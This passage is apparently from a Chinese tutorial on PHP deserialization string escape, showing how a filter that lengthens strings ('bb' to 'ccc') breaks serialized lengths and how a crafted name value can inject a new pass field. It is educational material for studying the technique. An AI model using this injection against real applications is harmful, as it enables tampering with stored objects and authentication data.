 ## 替换后变长

### 原理分析

替换修改后导致序列化字符串变长

示例代码：

```php
<?php
function filter($str)
{
    return str_replace('bb', 'ccc', $str);
}
class A
{
        public $name = 'aaaabb';
        public $pass = '123456';
}
$AA = new A();
echo serialize($AA) . "\n";
$res = filter(serialize($AA));
echo $res."\n";
$c=unserialize($res);
var_dump($c);

?>
```

这里我们的目的就是间接通过反序列化改变pass的值

我们先理解代码执行顺序，这里是先序列化，然后再用序列化完的字符串进行过滤

所以当name的值为aaaabb的时候，过滤完name的值是aaaaccc，七个字符，但是序列化字符串依然认为name的值是6个，所以根据上面前置知识的特性二，这里反序列化失败，var_dump($c)的结果是bool(false)

```php
// 运行结果
O:1:"A":2:{s:4:"name";s:6:"aaaabb";s:4:"pass";s:6:"123456";}
O:1:"A":2:{s:4:"name";s:6:"aaaaccc";s:4:"pass";s:6:"123456";}
PHP Notice:  unserialize(): Error at offset 33 of 61 bytes in /config/workspace/test.php on line 15
bool(false)
```

但是我们可以利用特性一去闭合，当我们让name的值为`";s:4:"pass";s:6:"hacker";}`

```php
<?php
function filter($str)
{
    return str_replace('bb', 'ccc', $str);
}
class A
{
        public $name = '";s:4:"pass";s:6:"hacker";}';
        public $pass = '123456';
}
$AA = new A();
echo serialize($AA) . "\n";
$res = filter(serialize($AA));
echo $res."\n";
$c=unserialize($res);
var_dump($c);
?>

// O:1:"A":2:{s:4:"name";s:27:"";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}
// O:1:"A":2:{s:4:"name";s:27:"";s:4:"pass";s:6:"hacker";}";s:4:"pass";s:6:"123456";}
```